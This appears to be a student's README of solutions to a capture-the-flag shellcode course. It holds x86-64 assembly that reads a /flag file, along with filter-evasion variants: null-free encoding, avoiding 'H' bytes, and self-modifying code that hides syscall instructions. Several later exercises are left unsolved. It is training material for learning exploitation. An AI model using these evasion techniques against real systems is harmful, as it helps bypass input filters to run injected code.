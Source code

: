 # Shellcode exercises
To compile and give solution:
```
gcc -nostdlib -static -o file file.s
objcopy --dump-section .text=RawFile file
cat RawFile | /challenge/level_x
```
Before each source code:
```
.intel_syntax noprefix
.global _start
_start:
```
Base shellcode:  
```
mov     rbx, 0x00000067616c662f
push    rbx
mov     rax, 2
mov     rdi, rsp
mov     rsi, 0
syscall

mov     rdi, 1
mov     rsi, rax
mov     rdx, 0
mov     r10, 1000
mov     rax, 40
syscall
```

## ex 1
## ex 2
## ex 3
+ the shellcode must have NO null bytes
```
mov     rbx, 0x67616c662f111111
shr     rbx, 24
push    rbx

xor	rax, rax
inc     rax
inc     rax		                # rax = 2
mov     rdi, rsp	            # rdi = address of /flag
xor     rsi, rsi	            # rsi = 0
xor	rdx, rdx	                # rdx = 0
syscall			                # open

xor     rdi, rdi
inc     rdi		                # rdi = 1
mov     rsi, rax	            # rsi = rax (return value of open)
xor     rdx, rdx	            # rdx = 0
mov     r10w, 1000	            # r10 = 1000
xor     rax, rax
mov     al, 0x28	            # rax = 40
syscall			                # sendfile
```
## ex 4
+ the shellcode must have NO 'H' bytes
```
mov     r10, 0x00000067616c662f
push    r10

push    2
pop     rax             # rax = 2
push    rsp
pop     rdi             # rdi = rsp
push    0
pop     rsi             # rsi = 0
push    0
pop     rdx             # rdx = 0
syscall                 # open

push    1
pop     rdi             # rdi = 1
push    rax
pop     rsi             # rsi = rax (return value of open)
push    0
pop     rdx             # rdx = 0
mov     r10, 1000       # r10 = 1000
push    40
pop     rax             # rax = 40
syscall                 # sendfile
```

## ex 5
+ the shellcode must have NO syscalls
+ forbidden byte sequences: 0f05 (`syscall`), 0f34 (`sysenter`), 80cd (`int`)
```
mov     rbx, 0x00000067616c662f
push    rbx
mov     rax, 2
mov     rdi, rsp
mov     rsi, 0
inc     BYTE PTR [rip]
.word   0x050e

mov     rdi, 1
mov     rsi, rax
mov     rdx, 0
mov     r10, 1000
mov     rax, 40
inc     BYTE PTR [rip]
.word   0x050e
```

## ex 6
+ the shellcode must have NO syscalls
+ forbidden byte sequences: 0f05 (`syscall`), 0f34 (`sysenter`), 80cd (`int`)
+ removing write permissions from first 4096 bytes of shellcode  
same as 5, but add 4096 nops before actual code

## ex 7
+ can't use stdin, stdout, stderr  
???

## ex 8
+ reading 0x12 bytes from stdin
+ removing write permissions from first 4096 bytes of shellcode  
???

## ex 9
This challenge modified your shellcode by overwriting every other 10 bytes with 0xcc. 0xcc, when interpreted as an
instruction is an `INT 3`, which is an interrupt to call into the debugger. You must avoid these modifications in your
shellcode
```
```  
???

## ex 10
This challenge just sorted your shellcode using bubblesort. Keep in mind the impact of memory endianness on this sort
(e.g., the LSB being the right-most byte). This sort processed your shellcode 8 bytes at a time.    
```
```  
???

## ex 11
This challenge just sorted your shellcode using bubblesort. Keep in mind the impact of memory endianness on this sort
(e.g., the LSB being the right-most byte). This sort processed your shellcode 8 bytes at a time.  
This challenge is about to close stdin, which means that it will be harder to pass in a stage-2 shellcode. You will need
to figure an alternate solution (such as unpacking shellcode in memory) to get past complex filters.
```
```  
???

## ex 12
This challenge requires that every byte in your shellcode is unique!  
```
```  
???

## ex 13
Reading 0xc bytes from stdin.  
Removing write permissions from first 4096 bytes of shellcode.  
```
```  
???

## ex 14
Reading 0x6 bytes from stdin.  
```
```  
???